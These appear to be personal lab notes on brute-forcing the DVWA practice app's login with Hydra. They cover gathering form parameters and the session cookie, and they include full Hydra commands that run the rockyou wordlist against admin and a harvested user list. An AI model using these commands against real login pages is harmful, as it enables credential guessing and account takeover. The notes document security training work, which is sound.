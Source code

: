 # Presented with a classic username/password web form
- using hydra
- hydra needs options
  - wordlist_file
  - [service]
    - by inspecting sourcecode we see alot of get so its probebaly a http-get-form
  - target_URI
    - The full target URL.
    - Any parameters
    - Failed login message.
    - first two can be found using burp by intercipting the request
    - last req can be found by typing wrong password or user to the web page
  - give a way for Hydra to authenticate to our target page
    - Cookies
    - examining the cookies our browser has by Firefox developer web console (Control+Shift+K)
    - entering the string document.cookie
    - two fields, security and PHPSESSID. security is our current security setting, "low". PHPSESSID is our session ID, which is actually what we need
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.206.128 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=low; PHPSESSID=9cd4a8a97889ff80bb8ac41154a0a16d:incorrect" -V 
```
# Other Accounts
- after we logged in there is and image we inspect it and we see a directory
- **http://192.168.206.128/dvwa/hackable/users/admin.jpg**
- we go to the users and we see alist of valid users
- put the users in alist and run hydra again with the list made and we got all thier passwors
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.206.128 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=low; PHPSESSID=9cd4a8a97889ff80bb8ac41154a0a16d:incorrect"
```
